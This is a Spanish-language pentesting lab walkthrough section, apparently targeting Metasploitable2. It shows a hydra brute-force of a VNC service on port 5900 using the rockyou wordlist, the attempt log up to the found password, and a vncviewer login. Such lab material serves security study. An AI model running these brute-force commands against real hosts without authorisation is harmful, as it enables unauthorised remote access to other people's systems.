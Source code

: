 ----

## VNC 5900

VNC o Virtual Network Computing es un servicio que utiliza el protocolo `Remote Frame Buffer` para permitir el acceso remoto gráfico de otro sistema. Es una sesion interactiva ya que el usuario puede dar las entradas del mouse y del teclado a través de VNC al sistema original.

Fuerza bruta con `hydra`

```
❯ hydra -s 5900 -P /usr/share/wordlists/rockyou.txt 192.168.0.110 -t 20 -f -V vnc
[...]
[ATTEMPT] target 192.168.0.110 - login "" - pass "babygirl" - 16 of 14344402 [child 15] (0/0)
[ATTEMPT] target 192.168.0.110 - login "" - pass "monkey" - 17 of 14344402 [child 16] (0/0)  
[ATTEMPT] target 192.168.0.110 - login "" - pass "lovely" - 18 of 14344402 [child 17] (0/0)  
[ATTEMPT] target 192.168.0.110 - login "" - pass "jessica" - 19 of 14344402 [child 18] (0/0) 
[ATTEMPT] target 192.168.0.110 - login "" - pass "654321" - 20 of 14344402 [child 19] (0/0)  
[ATTEMPT] target 192.168.0.110 - login "" - pass "michael" - 21 of 14344402 [child 1] (0/0)  
[ATTEMPT] target 192.168.0.110 - login "" - pass "ashley" - 22 of 14344402 [child 0] (0/0)   
[ERROR] unknown VNC server security result 2                                                 
[ERROR] unknown VNC server security result 2                                                 
[ATTEMPT] target 192.168.0.110 - login "" - pass "qwerty" - 23 of 14344402 [child 2] (0/0)
[ATTEMPT] target 192.168.0.110 - login "" - pass "111111" - 24 of 14344402 [child 5] (0/0)   
[5900][vnc] host: 192.168.0.110   password: password     
[STATUS] attack finished for 192.168.0.110 (valid pair found)                                
```

```
❯ vncviewer 192.168.0.110:5900
```

![vnc](../assets/imgs/metasploitable2/vnc.png)
